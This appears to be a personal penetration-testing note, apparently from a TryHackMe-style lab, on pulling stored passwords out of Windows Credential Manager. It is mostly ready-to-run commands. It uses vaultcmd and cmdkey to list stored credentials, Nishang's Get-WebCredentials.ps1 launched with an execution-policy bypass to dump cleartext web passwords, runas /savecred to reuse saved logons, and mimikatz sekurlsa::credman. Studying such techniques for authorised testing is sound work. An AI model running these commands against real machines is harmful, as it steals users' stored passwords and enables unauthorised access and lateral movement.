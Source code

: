 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#runas #mimikatz #powershell #cmdkey #vaultcmd 
- Credential manager stores passwords for website, RDP logons etc.
- `vaultcmd` and `cmdkey` can be used to manage credentials in the credential manager.
```powershell
# list vauls, by default, "Web Credentials" and "Windows Credentails" are present
vaultcmd /list
vaultcmd /listproperties:"Web Credentials"
# list stored credentials
vaultcmd /listcreds:"Web Credentials"

# list keys
cmdkey /list
```
### Nishang
- Nishang's https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1 can be used to fetch cleartext web password from credential manager.
```powershell
powershell.exe -ex bypass
. .\Get-WebCredentials.ps1
Get-WebCredentials
```
### RunAs
- Runas.exe can be used to use the saved credentials.
```powershell
# list saved credentials
cmdkey /list

# runas can be used to use these credentials
runas.exe /savecred /user:thm.red\thm.local
```
### Mimikatz
- mimikatz can be used to fetch credentials from credential manager.
```powershell
sekurlsa::credman
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
